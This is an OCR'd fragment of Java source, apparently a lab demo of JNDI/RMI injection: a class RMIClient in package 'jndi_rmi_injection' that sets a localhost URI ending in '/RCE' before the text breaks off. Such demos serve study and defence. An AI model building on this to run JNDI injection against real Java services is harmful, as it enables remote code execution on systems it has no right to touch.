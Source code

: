 package  
  
jndi_rmi_injection  
;  
  
  
import  
  
javax  
.  
naming  
.  
InitialContext  
;  
  
import  
  
javax  
.  
naming  
.  
NamingException  
;  
  
public  
  
class  
  
RMIClient  
 {            
  
      
public  
  
static  
  
void  
  
main  
(  
String  
[]   
args  
)  
  
throws  
  
NamingException  
{            
  
          
String  
  
uri  
  
=  
  
"rmi://127.0.0.1:7778/RCE"  
;  
  
          